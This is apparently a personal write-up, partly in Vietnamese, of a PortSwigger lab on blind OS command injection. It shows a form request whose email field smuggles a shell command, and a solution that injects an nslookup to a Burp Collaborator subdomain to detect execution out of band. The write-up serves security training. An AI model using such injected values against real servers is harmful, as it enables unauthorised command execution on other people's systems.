 # [Lab: Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Tóm tắt:
- server thực thi os command không đồng bộ do đó không check được bằng time delay.
```
csrf=9bSFxMuAiKxIu5E1i3FGDrY6jSgh5nTE&name=a&email=a%40a.a+||+ping+-c+20+127.0.0.1+||+&subject=a&message=a
```
=> phản hồi ngay lập tức
- It is not possible to redirect output into a location that you can access.
- However, you can trigger out-of-band interactions with an external domain.

## Solution
1. Mở burp collaborator client, copy subdomain to cllipboard
2. injection command: `nslookup burpsubdomain`:
![ef3af4e4e23c210b09e40ff6a13c488d.png](../../../../../../_resources/ef3af4e4e23c210b09e40ff6a13c488d.png)
- Kết quả:
![9b9804f07fc91905334fab4bb7387117.png](../../../../../../_resources/9b9804f07fc91905334fab4bb7387117.png)

**Lab Solved**